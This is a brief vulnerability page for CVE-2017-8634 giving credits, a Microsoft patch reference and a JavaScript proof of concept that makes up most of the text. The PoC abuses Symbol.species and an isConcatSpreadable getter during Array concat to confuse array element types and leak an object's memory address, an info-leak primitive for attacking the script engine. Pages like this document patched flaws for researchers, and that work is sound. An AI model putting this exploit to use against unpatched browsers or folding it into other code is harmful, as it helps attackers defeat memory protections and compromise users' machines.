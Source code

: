 # CVE-2017-8634

- Fix: Aug 2017
- Credit: Hao Linan of Qihoo 360 Vulcan Team, HyungSeok Han, @daramg of KAIST SoftSec

## PoC

PoC from [daramg](https://github.com/daramg)

```javascript
function convert(data){
    a = new ArrayBuffer(8);
    b = new Float64Array(a);
    c = new Uint8Array(a);
    b[0] = data;
    ret = 0
    for(i = 0; i<8; i++){
        ret += c[7-i].toString(16)
    }
    return ret;
}

function leak(target){
    var a1 = [];
    for (var i = 0; i < 0x100; i++) {
          a1[i] = i;
    }
    var a2 = [1234,1234];
    var c = new Function();

    c[Symbol.species] = function() {
        new_array = [99,99,99];

        return new_array;
    };
    a1.constructor = c;
    a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
        new_array[0] = 4.2;
        a2[0] = target
        return true;
    });
    var res = a1.concat(a2);
    return convert(res[256]) ;
}
a = [1,2,3]
v = leak(a)
console.log(v)
```

## Reference

- [Microsoft](https://support.microsoft.com/en-us/help/4034674/windows-10-update-kb4034674)
